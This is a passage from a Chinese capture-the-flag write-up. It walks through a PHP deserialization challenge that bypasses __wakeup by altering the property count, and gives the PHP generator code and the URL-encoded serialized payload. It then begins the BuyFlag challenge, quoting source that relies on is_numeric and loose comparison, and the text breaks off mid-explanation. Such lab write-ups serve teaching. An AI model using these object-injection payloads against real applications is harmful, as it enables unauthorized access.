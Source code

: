 看了一下，猜测是反序列化，但是没找到传参点。

后来在index里找到了传参点。

因为这两天就做过类似的，所以一眼就发现了考点：

private变量，和绕过weakup。

payload：

```php
$a = new Name("admin", 100);
echo urlencode(serialize($a));
```

最后将name后面的2改为3即可

```
O%3A4%3A%22Name%22%3A3%3A%7Bs%3A14%3A%22%00Name%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A14%3A%22%00Name%00password%22%3Bi%3A100%3B%7D
```

![1732626048918](image/1124-1130周报/1732626048918.png)

#### [极客大挑战 2019]BuyFlag

访问靶机后先打开源码，扫了一圈没东西。

于是访问MENU_PAYFLAG

打开源码发现：

```php
<!--
	~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
-->
```

is_numeric用于判断一个变量是否为数字或数字字符串。

所以passwd不能为纯数字
